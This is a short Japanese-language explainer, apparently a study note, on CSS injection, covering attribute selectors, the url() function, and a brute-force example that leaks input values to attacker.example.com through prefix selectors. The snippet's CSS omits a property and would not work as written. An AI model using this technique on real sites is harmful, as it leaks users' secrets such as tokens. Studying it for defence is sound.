 # CSS Injection

- [\# CSS Injection とは](#CSS-Injection-とは)
- [\# Attribute Selector について](#Attribute-Selector-について)
- [\# CSS での HTTP Request について](#CSS-での-HTTP-Request-について)
- [\# Injection](#Injection)


## CSS Injection とは

HTML に対して CSS を挿入することで Web ページ上の機密情報の取得を狙う攻撃のこと。XSSとは異なる分類。

## Attribute Selector について

CSS には Attribute Selector と呼ばれるものがあり、ある要素の属性に条件を与え、その条件を満たす場合のみ CSS を適応する。

例) a 要素の href 属性が *http://* から始まる場合、赤色にする
```css
a[href^="http://"] {
	color: red;
}
```

## CSS での HTTP Request について

CSS では特定の URL を引数にファイル等を参照するための **URL** 関数が用意されている。

```css
body {
	background: url(http://example.com/bg.png);
}
```


## Injection

Attribute Selector と URL 関数を利用することで、属性の値を調べることができる。
簡潔に言うと、総当りする。

```css
input[value^=a] {
	url(http://attacker.example.com/?value=a);
}
input[value^=b] {
	url(http://attacker.example.com/?value=b);
}
......
```